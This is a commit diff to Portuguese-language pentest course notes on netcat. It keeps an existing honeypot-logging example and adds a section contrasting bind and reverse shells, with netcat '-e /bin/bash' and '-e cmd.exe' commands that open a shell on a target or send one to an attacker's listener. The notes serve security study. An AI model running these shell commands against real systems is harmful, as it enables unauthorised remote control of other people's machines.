

Before and after one commit to ArantesVini/desec-npp, a Markdown page: 14-Swiss Army Knife/aulas.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
about bind and reverse shell

```diff
--- a/14-Swiss Army Knife/aulas.md
+++ b/14-Swiss Army Knife/aulas.md
@@ -50,3 +50,17 @@ Para criar um honepote, podemos por exemplo criar um **banner** em *.txt*, exemp
 Agora aprimos a porta com `nc -vnlp {porta} < banner.txt` assim direcionamos a saida ao arquvio de banner criado, exibidno por exemplo o banner de um servidor FTP com informacoes falsas do nosso sistema. O seguinte precisamos direcionar para o *.log* usando agora `nc -vnlp {porta} < banner.txt >> file.log 2>> file.log`,  importante usador dois *sinais de maior que* para gravar no final do arquivo e nao substituir. Outro ponto sobre, e que usando `2>>` direcionamos tambem erros para um arquivo de log e gravamos no final estes. Dessa forma as tentativas de interacao com o honeypot ficam armazenadas, ainda podemos melhorar o script com `while true; do nc -vnlp {porta} < banner.txt >> file.log 2>> file.log;echo $(date) >> file.log;done` trazendo tambem a data e hora do que foi escrito no shell, e adicionado o *while true;do* impede que abrindo a primeiro conexao o netcat caia apos a primeira conexao ser encerrada.
 
 Usos desse honeypot seria por exemplo filtrar os IPs que se conectam as portas falsas e incluir em uma regra de bloqueio de firewall.
+
+## Bind shell X Reverse shell
+
+- **Bind shell** -> Maquina atacante conecta diretamente na porta do alvo, ao conectar **executa** a shell.
+
+Usando netcat, temos a opcao `-e` que permite a execucao de um programa apos a conexao estabelecida.
+Na maquina alvo abrimos uma porta `nc -vnlp {porta} -e /bin/bash` no caso de linux ou `nc -vnlp {porta} -e cmd.exe` para windows.
+Na maquina atacante usamos `nc -vn {ip alvo} {porta}` e ja temos um shell, podemos digitar comandos diretamente no terminal.
+
+
+
+- **Reverse shell** -> Maquina atacante fica esperando uma conexao, maquina alvo conecta e **envia** a shell
+
+No reverse shell, iniciamos com a **maquina do atacante** escutando em uma porta exemplo `nc -vnlp {porta}` e entao na **maquina alvo**  `nc -vn {ip do atacante} {porta} -e cmd.exe # ou /bin/bash para linux` aqui nos conectamos na maquina atacante e enviamos o shell para ela.
```
